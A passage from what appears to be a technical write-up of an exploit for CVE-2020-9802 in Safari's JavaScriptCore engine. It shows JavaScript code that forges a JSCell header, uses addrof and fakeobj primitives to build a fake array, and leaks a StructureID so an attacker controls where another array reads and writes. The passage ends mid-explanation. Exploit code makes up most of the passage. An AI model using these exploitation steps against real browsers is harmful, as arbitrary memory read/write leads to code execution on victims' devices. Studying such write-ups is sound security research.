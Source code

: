 After creating an array to leak the header from, its time to craft an object
with a custom header and butterfly:

```javascript
let jscell_header = i2f(0x0108230700000000)

let container = {
    jscell_header: jscell_header,
    butterfly: rw_arr,
}

let container_addr = addrof(container)
let fake_header_addr = container_addr + 0x10
let fake_arr = fakeobj(fake_header_addr)
```

![](/assets/img/posts/cve-2020-9802/cve-2020-9802-structureid.png)

Leaking the `StructureID` and allows having a fully controlled, properly built
`fake_arr`
```javascript
jscell_header = fake_arr[0];
container.jscell_header = jscell_header;
```
Now that the attacker controls a JavaScript object that can modify the metadata
of another one, `rw_arr` in this specific instance, they can decide where the
latter reads from and writes to:
